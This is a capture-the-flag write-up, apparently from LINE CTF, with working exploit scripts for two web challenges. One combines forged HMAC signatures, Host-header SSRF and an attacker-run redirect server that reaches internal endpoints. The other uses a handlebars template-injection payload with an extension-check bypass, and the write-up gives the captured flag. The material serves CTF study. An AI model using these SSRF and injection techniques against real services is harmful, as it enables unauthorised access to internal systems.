 
# diveinternal

* Default redirect support with Node.js `request` and python `requests`
* The main goal is to create a file under `/backup` , then visit `/rollback` with flag back in header. A slight race is needed.
* run server.js on vps to give handful support

exp.py
```python
import requests
import hmac
import hashlib
import json

privateKey = b'let\'sbitcorinparty'


def sign(query_string):
    return hmac.new(privateKey, query_string, hashlib.sha512).hexdigest()


url = 'http://34.85.51.108/'



VPS_IP = '120.27.246.202'


def create():
    query = 'src=http://VPS_IP/byc404'
    r = requests.get(url + 'apis/coin', headers={
        'Host': VPS_IP,
        'Lang': '#',
        'Sign': sign(query.encode())
    })
    print(r.headers['lang'])


def getStatus():
    r = requests.get(url + 'apis/coin', headers={
        'Host': VPS_IP,
        'Lang': 'status',
    })
    dbHash = json.loads(r.headers['lang'])['dbhash']
    integrityKey = hashlib.sha512((dbHash).encode('ascii')).hexdigest()
    print('Key: ' + integrityKey)
    return integrityKey


def getFlag(integrityKey):
    query = 'dbhash=byc404'
    r = requests.get(url + 'apis/coin', headers={
        'Host': VPS_IP,
        'Lang': 'flag',
        'Key': integrityKey,
        'Sign': sign(query.encode())
    })
    print(r.headers['lang'])


if __name__ == '__main__':
    while True:
        create()
        getFlag(getStatus())

```

server.js
```javascript
const express = require('express');
const logger = require('morgan');

const app = express();
app.use(logger('dev'))

app.get('/', (req, res) => {
        res.redirect('http://127.0.0.1:5000/download?src=http://120.27.246.202/byc404')
})

app.get('/status', (req, res) => {
        res.redirect('http://127.0.0.1:5000/integrityStatus')
})
app.get('/flag', (req, res) => {
        res.redirect('http://127.0.0.1:5000/rollback?dbhash=byc404');
})

app.get('/byc404', (req, res) => {
        res.sendFile('/proc/self/cwd/byc404');
})

app.listen(80)
```

## babysandbox

* use array to bypass ext limit. This chall has `hbs` installed so same way as I did in HUAWEI CTF (handlebars tricks) 

```python
import requests

res = ''
for i in range(60):
    res+='{{%s}}' % str(i)

PAYLOAD = """{{#each this}}
%s
{{/each}}
"""  % res
url = 'http://35.221.86.202/04e69cc28fc76d7a5c0c2674483d0c81feaed0aa485454beba75a89c22e621fd'

NAME = 'bycexp404'

r = requests.post(url , json = {
    'filename': NAME,
    "contents": PAYLOAD,
    'ext': [".ejs","a","b",".hbs"]
})

print(r.text)

r = requests.get(url + '/' + NAME + '.ejs,a,b,.hbs')
print(r.text)
```
FLAG : `LINECTF{I_think_emilia_is_reallllly_t3nshi}`  (EMT!EMT!EMT!)

